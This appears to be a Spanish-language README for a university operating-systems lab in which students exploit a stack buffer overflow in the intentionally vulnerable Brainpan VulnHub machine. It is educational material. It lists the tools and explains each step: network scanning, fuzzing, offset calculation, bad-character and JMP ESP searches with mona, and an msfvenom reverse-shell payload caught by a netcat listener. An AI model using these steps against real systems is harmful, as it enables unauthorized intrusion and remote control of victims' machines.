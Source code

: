 
<h1 align="center">BufferOverflow</h1>
<p align="center">
  <b>Integrantes</b>
</p>

<p align="center">
  Huber Steven Arroyave Rojas <br>
  Assandry Enrique Barón Rodríguez
</p>

<p align="center">
  <b>Tutor:</b>
</p>

<p align="center">
  Henry Alberto Arcila Ramírez <br>
  Danny Álexandro Múnera Ramírez
<br>
 </p>

 <p align="center">
  Sistemas Operativos <br>
  Departamento de Ingeniería de Sistemas <br>
  Facultad de Ingeniería <br>
  Universidad de Antioquia <br>
  2025
</p>

<h2 align="center">Descripción del proyecto y su propósito</h2>

<p>
  
</p>

<h2 align="center">Requisitos de hardware/software</h2>

<p>
  <strong>Hardware Recomendado:</strong> <br>
  
A pesar de que el Buffer Overflow es un concepto de software, para realizar su   simulación en la máquinas virtuales, se requieren de los recursos de hadware. Por lo cual los requisitos son:
  <ul>
  <li> Como minimo, se debe contar con la capacidad de virtualizacion del CPU.</li>
  <li>Se debe contar con la cantidad adecuada de RAM. para este caso, se recomienda 8 GB y  a partir de la cantidad de 16 GB es la capacidad ideal para la fluidez.</li>
  <li>Tambien, es necesario contar con espacio suficiente en el disco.</li>
  </ul>
  Con lo anterior, se previenen los problemas de rendimiento o incompatibilidad, los cuales, podrian fustrar el proceso de configuración. <br>
  <br>
  <strong>Software Requerido:</strong><br>
<br>
  Las herramientas de software necesarias son:
  <ul>
  <li>Para la virtualización es necesario utilizar una plataforma como Oracle VirtualBox, la cual permita crear y gestionar las máquinas virtuales.</li>
  <li>En cuanto a las máquinas virtuales se necesitan:
    <ul>
      <li>El Kali Linux, que es la máquina atacante y de esta se necestian las siguientes herramientas:
        <ul>
          <li>En cuanto a las herramientas de red se necesitan: 
            <ul>
             <li>El netcat</li>
              <li>El nmap</li>
              <li>El arp-scan</li>
            </ul>
          </li>
          <li>Gobuster como la herramientas de descubrimiento</li>
          <li>Las utilidades de generación de los payloads y los patrones de Metasploit Framework como: 
            <ul>
              <li>pattern_create.rb</li>
              <li>pattern_offset.rb</li>
              <li>El arp-scan</li>
            </ul>
          <li> Y el Impacket para facilitar la transferencia de archivos.</li>
        </ul>
      <li>El Brainpan, que es la máquina objetivo. Dicha maquina es vulnerable al ataque y debe contar con un enlace a su ubicación de descarga en vulnHub.</li>
      <li> El Windows 7, que es la máquina intermedia. Esta, es muy importante para poder ejecutar el depurador y algunas herramientas de análisis que son nativas de Windows donde:
        <ul>
          <li>Immunity Debugger es el depurador principal</li>
          <li>Python 2.7.1 que es necesario para los scripts del depurador</li>
          <li>además de Mona.py que es un plugin vital para la automatización de   las tareas de explotación</li>
        </ul>
      </li>
    </ul>  
  </li>
</ul>  
</p>

<h2 align="center">Instrucciones detalladas de instalación y ejecución</h2>
<p>
  En el siguiente link, se encuentra una guia paso a paso de de la instalacion y ejecucion de este laboratorio: <a    href="https://github.com/hubersteven/BufferOverflow/blob/main/Documentos/2.%20Entrega%20final/Instalaci%C3%B3n%20de%20dependencias.pdf"> Instalacion de dependencias</a> <br>
  Ademas de eso, se puede un video explicativo del laboratorio, por medio del siguiente link: <a href="https://youtu.be/wMtP92HEb90"> video Entrega Final</a>
</p>

<h2 align="center">Ejemplos de uso</h2>

<p>
  A continuacion, se presentan los principales comandos utilizados durante el proceso de explotación del buffer overflow, explicando su propósito y el momento específico en que se aplican.
  <ul>
    <li><strong>El descubrimiento y la preparación del objetivo.</strong><br>
      Estos comandos son utilizados al comienzo del proceso, con el objetivo de identificar la máquina víctima y descubrir los servicios potencialmente vulnerables.
    </li>
      <ul>
        <li><strong>Identificación de IP y Puertos.</strong><br></li>
          <ul>
            <li><pre><code>arp-scan -I eth0 --localnet</code></pre>
              Realiza un escaneo de la red local para detectar todas las direcciones IP activas. Muestra las IP asignadas a Windows 7 y Kali Linux</li>
            <li><pre><code>nmap -p- -open T5 -v -n &lt;dirección ip destino&gt;</code></pre>
              Escanea todos los puertos de la máquina objetivo. Aca se detecta que el puerto 9999 es en el que se ejecuta brainpan.exe.
            </li>
          </ul>
        <li><strong>Fuzzing Web.</strong><br></li>
          <ul>
            <li><pre><code>gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://&lt;ip linux&gt;:10000/</code></pre>
              Se utiliza la herramienta gobuster para buscar las rutas ocultas en el servidor web. Esto, permite descubrir el directorio /bin/, donde se puede acceder y descargar el ejecutable brainpan.exe.</li>
          </ul>        
      </ul>
     <li><strong>La fase de fuzzing y la determinación del offset.</strong><br>
     Estos comandos permiten verificar si el programa es vulnerable y determinar cuántos bytes se necesitan para sobrescribir el EIP.</li>
       <ul>
         <li><strong>Fuzzing Básico con Netcat</strong></li>
           <ul>
            <li><pre><code>nc &lt;ip windows&gt; 9999</code></pre>
              Se conecta al brainpan en ejecución utilizando el netcat y se continúa con una cadena de caracteres de gran longitud</li>
           </ul>
         <li><strong>Generación de Patrón para Calcular Offset</strong></li>
           <ul>
            <li><pre><code>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000</code></pre>
              Genera una cadena única de 1000 caracteres. La cual se envía al programa para provocar un crash que permitirá localizar exactamente dónde se sobrescribe el EIP.</li>
           </ul>
         <li><strong>Cálculo del Offset</strong></li>
           <ul>
            <li><pre><code>/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q &lt;valor EIP&gt;</code></pre>
              Toma el valor hexadecimal del EIP mostrado en el crash y calcula cuántos bytes exactos se necesitan para llegar a él. Sobrescribe el EIP.</li>
           </ul>
       </ul>
     <li><strong>La explotación avanzada y la generación de shellcode.</strong><br></li>
    Una vez controlado el EIP, estos comandos permiten detectar los caracteres problemáticos, encontrar la dirección de salto, generar el shellcode y lanzar el exploit final.
       <ul>
         <li><strong>Configuración de Mona.py</strong></li>
           <ul>
            <li><pre><code>!mona config -set workingfolder C:\Users\computador1\Desktop\%p</code></pre>
              Crea un directorio de trabajo para Mona, para guardar los logs, los archivos bytearray y las comparaciones.</li>
           </ul>
         <li><strong>Generación de bytearray para identificar los badchars</strong></li>
           <ul>
            <li><pre><code>!mona bytearray -cpb "\x00"</code></pre>
              Crea una lista de todos los bytes posibles (excepto los conocidos como problemáticos o bachar como lo es el byte nulo). Esta lista se guarda en un archivo y se envía al programa para observar cuáles se corrompen en la pila.</li>
            <li><pre><code>!mona compare -f C:\Users\computador1\Desktop\_no_name\bytearray.txt</code></pre>
              Compara el contenido de la pila con la lista de badchars original e identifica los badchars adicionales que deben ser excluidos al generar el shellcode.</li>
           </ul>
         <li><strong>Búsqueda de la dirección JMP ESP</strong></li>
           <ul>
            <li><pre><code>!monafind -s “\xFF\xE4” -m brainpan.exe</code></pre>
              Busca la dirección generada que contenga la instrucción JMP ESP, luego esta dirección será usada para redirigir el flujo hacia el shellcode.</li>
           </ul>
         <li><strong>Generación del shellcode (msfvenom)</strong></li>
           <ul>
            <li><pre><code>msfvenom -p windows/shell_reverse_tcp LHOST=&lt;ip kali&gt; LPORT=443 --platform windows -a x86 -f c -b '\x00' EXITFUNC=thread</code></pre>
              Genera un shellcode que abre una conexión inversa desde la máquina víctima hacia Kali.</li>
           </ul>
         <li><strong>Configuración del listener (Netcat o Metasploit)</strong></li>
           <ul>
            <li><pre><code>nc -lvnp 443</code></pre>
              Inicia un listener en Kali para esperar la conexión entrante desde la máquina víctima. Si el exploit es exitoso, se obtiene una shell de la máquina comprometida.</li>
          </ul>
       </ul>
   </ul>
</p>

<h2 align="center">Créditos de autores</h2>

<p>
  
</p>
